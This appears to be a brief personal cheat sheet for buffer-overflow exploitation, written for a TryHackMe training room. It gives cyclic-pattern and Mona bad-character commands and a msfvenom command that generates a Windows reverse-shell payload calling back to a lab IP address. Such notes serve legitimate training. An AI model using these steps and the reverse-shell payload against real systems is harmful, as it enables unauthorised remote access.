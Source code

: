 # BOF
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```


## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>


**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 

